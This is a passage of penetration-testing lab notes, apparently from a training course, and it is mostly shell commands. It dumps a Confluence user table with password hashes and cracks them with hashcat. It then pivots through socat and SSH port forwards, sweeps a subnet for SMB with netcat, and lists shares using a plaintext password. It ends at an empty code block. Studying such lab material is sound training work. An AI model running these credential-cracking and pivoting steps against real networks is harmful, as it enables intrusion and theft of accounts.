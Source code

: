 ```Shell
\c confluence
```

```Shell
select * from cwd_user;
```
Output:
```
458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
```
#### Use Hashcat to crack the Atlassian (PBKDF2-HMAC-SHA1) hashes (mode: 12001)
```Shell
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```

*After some more enumeration of the internal network, we'll find PGDATABASE01 is also running an SSH server*

#### Kill the Socat process listening on TCP port 2345 and create a new port forward with Socat to access the SSH service on PGDATABASE01
```Shell
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
#### Connecting to SSH server on PGDATABASE01, through the port forward on CONFLUENCE01
```Shell
ssh database_admin@192.168.231.63 -p2222
```
## 18.3. SSH Tunneling
### 18.3.1. SSH Local Port Forwarding
#### Using a bash loop with Netcat to sweep for port 445 in the newly-found subnet
```Shell
for i in $(seq 1 254); do nc -zv -w 1 172.16.231.$i 445; done
```
#### Running the local port forward command
```Shell
ssh -N -L 0.0.0.0:4455:172.16.220.217:445 database_admin@10.4.220.215
```
	#### Confirm that the ssh process we just started from our other shell is listening on 4455 using `ss`
```Shell
ss -ntplu
```
#### Listing SMB shares through the SSH local port forward running on CONFLUENCE01
```Shell
smbclient -p 4455 -L //192.168.231.63/ -U hr_admin --password=Welcome1234
```
#### Listing files in the scripts share, using smbclient over our SSH local port forward running on CONFLUENCE01
```Shell
```